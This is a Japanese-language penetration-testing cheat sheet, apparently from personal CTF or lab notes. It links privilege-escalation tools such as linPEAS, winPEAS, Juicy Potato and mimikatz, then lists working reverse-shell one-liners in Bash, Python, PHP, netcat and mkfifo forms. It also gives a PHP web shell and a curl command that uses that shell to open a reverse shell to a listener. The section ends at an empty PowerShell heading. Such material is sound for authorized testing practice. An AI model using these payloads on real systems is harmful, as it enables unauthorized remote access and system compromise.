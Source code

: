 よく転送するファイル

- [PEASS-ng/linPEAS at master · carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [PEASS-ng/winPEAS at master · carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [rasta-mouse/Sherlock: PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.](https://github.com/rasta-mouse/Sherlock)
  - WinPEASで利用するWatsonによる脆弱性検索はWindowsServer 2016以降でしか動作しないためSherlockを使う場合がある
- [SecWiki/windows-kernel-exploits: その他エクスプロイト](https://github.com/SecWiki/windows-kernel-exploits)
- [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [windows-binaries | Kali Linux Tools](https://www.kali.org/tools/windows-binaries/)
- [ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
- [Re4son/Churrasco](https://github.com/Re4son/Churrasco)
- [ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

### リバースシェル

``` bash
# ホスト待ち受け
nc -nlvp 4444
sudo tcpdump -i tun0 icmp

# spawn
python3 -c 'import pty; pty.spawn("/bin/bash")'

# よく使うrevshell
# Bash
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
0<&196;exec 196<>/dev/tcp/10.10.10.1/4444; sh <&196 >&196 2>&196
/bin/bash -l > /dev/tcp/10.10.10.1/4444 0<&1 2>&1

# 名前付きパイプ
mknod pipe p
./app < pipe

# Python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

# PHP
php -r '$sock=fsockopen("10.10.10.1",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

<?php system($_GET['cmd']); ?>

curl "http://10.10.11.116/webshell.php" --data-urlencode "cmd=bash -c '/bin/bash -l > /dev/tcp/10.10.16.7/4444 0<&1 2>&1'"

# Netcat
nc -e /bin/sh 10.10.10.1 4444
nc.exe -nv 10.10.10.1 4444 -e cmd.exe

# Unix
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f

# PowerShell
```